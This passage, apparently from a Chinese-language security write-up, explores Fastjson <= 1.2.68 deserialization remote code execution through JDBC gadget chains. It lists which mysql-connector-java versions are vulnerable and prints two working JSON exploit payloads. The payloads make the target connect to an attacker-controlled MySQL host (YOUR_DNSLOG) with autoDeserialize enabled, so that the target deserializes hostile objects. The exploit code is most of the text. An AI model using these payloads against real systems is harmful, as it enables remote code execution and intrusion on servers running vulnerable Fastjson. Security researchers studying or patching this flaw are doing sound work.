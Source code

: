   
这里可以自己申请一个域名或者使用DNS重绑定的IP指向自己的VPS（国内VPS要备案）  
  
  
那么接下来就进行fantjson反序列化测试了。  
  
# Fastjson <= 1.2.68反序列化RCE探索  
  
  
对于fastjson <= 1.2.68版本，目前常用的利用链是JDBC文件读取、JDBC反序列化、文件写入还有文件读取等，不过较通用的是JDBC文件读取、JDBC反序列化  
  
## fastjson依赖库判断  
  
  
在进行JDBC利用链探测时，首先要判断  
mysql-connector-java  
版本是多少，我这里直接使用对于的poc  
  
  
来自这篇文章：  
[https://mp.weixin.qq.com/s/I0OdFPnRH_r1yZ04tOB-cw](https://mp.weixin.qq.com/s?__biz=MzUzNDMyNjI3Mg==&mid=2247485232&idx=1&sn=7ad52820b928490ef1f99d99f034634e&scene=21#wechat_redirect)  
  
  
  
fastjson<=1.2.68，mysql-connector-java-5.1.1-5.1.49可SSRF 5.1.11至5.1.48可反序列化   
  

```
{
  &#34;@type&#34;: &#34;java.lang.AutoCloseable&#34;,
  &#34;@type&#34;: &#34;com.mysql.jdbc.JDBC4Connection&#34;,
  &#34;hostToConnectTo&#34;: &#34;YOUR_DNSLOG&#34;,
  &#34;portToConnectTo&#34;: 3306,
  &#34;info&#34;: {
    &#34;user&#34;: &#34;yso_xxx&#34;,
    &#34;password&#34;: &#34;pass&#34;,
    &#34;statementInterceptors&#34;: &#34;com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&#34;,
    &#34;autoDeserialize&#34;: &#34;true&#34;,
    &#34;NUM_HOSTS&#34;: &#34;1&#34;
  },
  &#34;databaseToConnectTo&#34;: &#34;dbname&#34;,
  &#34;url&#34;: &#34;&#34;
}
```

  
fastjson<=1.2.68，mysql-connector-java-6.0.2-6.0.3可反序列化  
  

```
{
  &#34;@type&#34;: &#34;java.lang.AutoCloseable&#34;,
  &#34;@type&#34;: &#34;com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection&#34;,
  &#34;proxy&#34;: {
    &#34;connectionString&#34;: {
      &#34;url&#34;: &#34;jdbc:mysql://YOUR_DNSLOG:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_xxx_calc&#34;
    }
  }
}
```
